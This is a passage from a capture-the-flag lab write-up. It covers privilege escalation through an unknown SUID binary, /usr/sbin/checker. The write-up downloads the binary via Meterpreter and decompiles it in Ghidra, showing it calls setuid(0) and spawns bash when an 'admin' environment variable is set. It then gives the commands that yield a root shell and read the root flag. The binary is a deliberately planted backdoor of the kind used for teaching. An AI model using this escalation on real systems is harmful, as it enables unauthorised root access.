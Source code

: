 ```
-rwsr-sr-x 1 root root 8.3K May 26  2020 /usr/sbin/checker (Unknown SUID binary!)
```

## Privilege Escalation

If you run it directly from your shell, it prints the message: "Not an Admin". Weird. What the hell is this thing? Let's pull it down to our attack box and examine it. You can do this from the Meterpreter command line (not your shell).

```
download /usr/sbin/checker .
```

Use your tool of choice for disassembly. I used Ghidra and it translated the assembly to this C code.

```
undefined8 main(void)

{
  char *pcVar1;
  
  pcVar1 = getenv("admin");
  if (pcVar1 == (char *)0x0) {
    puts("Not an Admin");
  }
  else {
    setuid(0);
    system("/bin/bash");
  }
  return 0;
}
```

Pretty simple. This `checker` binary examines the `admin` environment variable. If it's empty, it prints "Not an Admin". Otherwise, it makes you root and starts a new bash shell. Let's test it! Back in your reverse shell, set an environment variable named `admin` to any value.

```
export admin=1
```

Then run `checker`.

```
/usr/sbin/checker
whoami
root
```

Excellent. Now all that's left is to collect our flags.

```
cat /root/root.txt
REDACTED
```
